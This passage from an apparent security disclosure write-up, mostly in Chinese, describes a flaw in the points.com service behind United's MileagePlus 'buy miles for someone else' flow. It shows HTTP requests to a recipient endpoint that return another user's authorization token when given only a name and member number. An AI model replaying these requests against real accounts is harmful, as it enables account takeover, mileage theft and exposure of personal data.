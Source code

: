     {"currency":"USD","memberDetails":"points_com_user_auth_token","transactionType":"buy_storefront"}
    ```

    **HTTP Response:**  
    ```
    HTTP/201 Created 
    Content-type: application/json

    {"email": "example@gmail.com", "firstName": "Samuel", "lastName": "Curry", "memberId": "EH123456"}
    ```

完成 OAuth-type flow 後，`memberValidation` token 似乎變成了 `points.com` 航空公司租戶的 user authorization token
- 我們可以重複使用此 token 執行 API 呼叫並驗證使用者身分


如果我們能為其他用戶產生這個 token
- 我們就能在他們的帳號上執行操作，如轉移航空里程和搜索他們的個人資訊
- 隨著我們對航空公司網站如何利用 `points.com` 基礎設施有了更多的了解，這成為了我們的目標之一，也是我們進一步探索的內容


----------------

## 1. `Points Recipient` endpoint 上不正確的 Authorization 允許攻擊者僅使用姓氏和獎勵編號以任何使用者身分進行驗證
當我們繼續尋找可以洩漏他人 `memberValidation` token 時，我們在 United 網站上發現了名為 `Buy miles for someone else(為他人購買里程)` 的流程
 

![](https://lh4.googleusercontent.com/bjX3VX9MG4yLqSrq_JjoXc0y4rjPGpgiZUmbeGZTwtuBI4uCzW9ZeLBE4OYAExUkZgEi4Wsp1yC0CfhCwdnHfTAksQrc9B1TBDDzx-JHtDwRUV22tdvaIxcViLj8CKsM8l-fh_6rIMYEXuP35fNxnaI)  

When you landed on this page as an authenticated MileagePlus user, it would ask you to add a recipient to send miles to. The recipient input field took in a first name, last name, and a MileagePlus number. When we sent the HTTP request to add the recipient, we noticed something super interesting returned in the response:

當你以經過驗證的 MileagePlus user 身分登入此頁面時
- 它會要求你新增一個收 recipient 傳送哩程
- recipient 輸入欄位包括名字、姓氏和 MileagePlus number
- 當我們發送 HTTP request 新增 recipient 時，我們注意到 response 中回傳了一些非常有趣的內容:

**HTTP Request:**  
```
POST /mileage-plus/mvs/recipient HTTP/2
Host: buymiles.mileageplus.com
Content-Type: application/json

{"mvPayload":{"identifyingFactors":{"firstName":"Victim","lastName":"Victim","memberId":"EH123456"}},"lpId":"loyalty_program_uuid"}
```

**HTTP Response:**  
```
HTTP/2 201 Created
Content-type: application/json

{"memberId": "EH123456", "links": {"self": {"href": "points_com_user_auth_token"}}, "membershipLevel": "1"}
```
